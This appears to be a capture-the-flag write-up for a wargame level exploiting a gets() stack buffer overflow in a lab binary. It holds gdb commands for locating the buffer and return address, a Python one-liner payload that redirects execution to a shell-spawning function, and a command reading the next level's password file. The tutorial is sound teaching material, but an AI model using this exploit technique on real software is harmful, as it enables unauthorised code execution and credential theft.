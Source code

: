 ## Buffer overflow with gets (level1)

This [binary](source.c) uses [gets](https://linux.die.net/man/3/gets) to fill a
buffer from user input. gets() is vulnerable since it does not check the buffer
size when writing into it (I mean the bug section of its man literally starts
with "Never use gets()"). There is also a function _run_ which is not called by
_main_ but launches a shell.

All we have to do is to get the buffer address. Using gdb, I break in main just
before the gets call and get eax's value:

```shell
# run gdb on the binary
gdb ./level1
# disassemble the main to get a look at the assembly code
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
# break before gets call
(gdb) b \*0x0804848d
Breakpoint 1 at 0x804848d
# start the program
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x0804848d in main ()
# print eax
(gdb) x $eax
0xbffffb10:     0x080484a0
```

0xbffffb10 is the address inside the _eax_ register and 0x080484a0 is the value
at this address. To check that this is really the start of the buffer we can
fill it with some random text and print it after:

```shell
# break on the instruction after the gets() call
(gdb) b *0x08048495
# continue
(gdb) c
Continuing.
# input some string
some string

Breakpoint 3, 0x08048495 in main ()
# print the string from the start of the buffer
(gdb) p (char *)0xbffffb10
$6 = 0xbffffb10 "some string"
```

Now we must write some data to the buffer until we overwrite the return address
value. This is possible because the stack grows 'downwards' from the highest
memory addresses to the lowest and that the function's parameters and return
address are pushed to the stack before its local variables. So we know that the
local buffer will be situated before the return address in memory. The return
address on x86 systems is always situated at ebp's value + 4:

```shell
(gdb) x $ebp + 4
0xbffffb5c:     0xb7e454d3
# this checks out, since 0xbffffb5c is greater than 0xbffffb10.
```

This means that when the main function's execution will be done the next
instruction executed after the ret will be at 0xb7e454d3. What we want, to get
into the shell, is to replace this value with the run() function's address.
First get the address:

```shell
# info address returns the address of the given symbol
(gdb) i addr run
Symbol "run" is at 0x8048444 in a file compiled without debugging.
```

Then we have all we need to build our payload. The size of our buffer is equal
to the address of the return address minus the start of the buffer:
`bffffb5c-bffffb10 = 76`. This means that our payload should look like that:

| byte ranges (inclusive) | data                       |
|-------------------------|----------------------------|
| [0 ... 76]              | whatever                   |
| [77 ... 80]             | run's address (0x08048444) |


```shell
# give the payload as input to level1
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' | ./level1
```

> Note that the return address bytes have been reversed since we're dealing with
> a little endian system.

The command above will output the following, meaning that we indeed reached and
executed the run() function:

```
Good... Wait what?
Segmentation fault (core dumped)
```

However the shell does not wait because stdin has been closed after gets(). To
remedy this, we need to execute the payload command in a sub shell and to call
an other command that will keep the shell pipe open:

```shell
# keep the pipe open with cat
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
# then we have access to the shell
whoami # -> level2
cat /home/user/level2/.pass # -> [the flag]
```
